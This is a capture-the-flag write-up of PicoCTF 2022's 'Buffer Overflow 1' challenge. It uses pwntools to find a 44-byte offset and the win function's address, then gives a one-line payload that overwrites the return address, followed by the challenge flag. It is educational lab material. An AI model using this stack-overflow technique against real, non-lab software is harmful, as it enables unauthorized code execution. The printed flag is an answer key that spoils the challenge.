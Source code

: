 # Buffer Overflow 1

First we need to see if it is vulnerable to buffer overflows:

![image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/PicoCTF%202022/Images/bo11.png)

We can modify the address, we need to find a good offset

```
from pwn import *
print(f'Search for: {cyclic(100)}')
```

This returns 

```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

When we input it we get

![[Pasted image 20220316194850.png]]

We make that address little endian and find the correct padding like:


```
from pwn import *
print(f'Padding: {cyclic_find(p32(0x6161616c))}')
```

This returns 44, so now that we know the padding we can find the address for the **win** function:

```
from pwn import *
vuln = ELF('./vuln')
print(p32(vuln.symbols['win']))
```

That returns the address "\xf6\x91\x04\x08" so finally we can run the payload like:

```
python2 -c "from pwn import *; print 'A' * 44 + '\xf6\x91\x04\x08'" | ./vuln
```

![image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/PicoCTF%202022/Images/bo12.png)

## Flag

> picoCTF{addr3ss3s_ar3_3asy_2e7003a1}
